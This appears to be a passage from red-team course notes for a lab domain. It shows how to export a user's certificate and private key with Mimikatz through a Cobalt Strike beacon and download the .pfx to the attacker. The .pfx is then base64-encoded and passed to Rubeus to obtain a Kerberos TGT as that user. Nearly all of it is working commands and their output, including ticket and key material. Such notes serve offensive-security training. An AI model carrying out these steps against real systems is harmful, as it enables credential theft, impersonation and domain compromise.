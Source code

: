 **Certificates can be exported with Mimikatz using `crypto::certificates`:**

```
beacon> mimikatz crypto::certificates /export

    Public export  : OK - 'CURRENT_USER_My_0_Nina Lamb.der'
    Private export : OK - 'CURRENT_USER_My_0_Nina Lamb.pfx'

beacon> download CURRENT_USER_My_0_Nina Lamb.pfx
[*] started download of C:\Users\nlamb\CURRENT_USER_My_0_Nina Lamb.pfx (3454 bytes)
[*] download of CURRENT_USER_My_0_Nina Lamb.pfx is complete
```

{% hint style="danger" %}
**Be aware: it drops them to disk.**
{% endhint %}

{% hint style="info" %}
&#x20; Go to _**View > Downloads**_ to sync files from Cobalt Strike to your local machine.
{% endhint %}

**Next, Base64 encode the `pfx` file:**

{% code overflow="wrap" %}
```
ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0
```
{% endcode %}

**Then, use it with Rubeus to obtain a TGT.&#x20;**<mark style="color:yellow;">**The export password will be**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**`mimikatz`**</mark>**:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: E=nlamb@cyberbotic.io, CN=Nina Lamb, CN=Users, DC=dev, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\nlamb'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

    doIGQj[...]5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/7/2022 12:28:51 PM
  EndTime                  :  9/7/2022 10:28:51 PM
  RenewTill                :  9/14/2022 12:28:51 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Cptkd+BVLZ8+NS11BQQ6Zg==
  ASREP (key)              :  79C05DC0CC7909DF6448F1B24FAFBD71
```
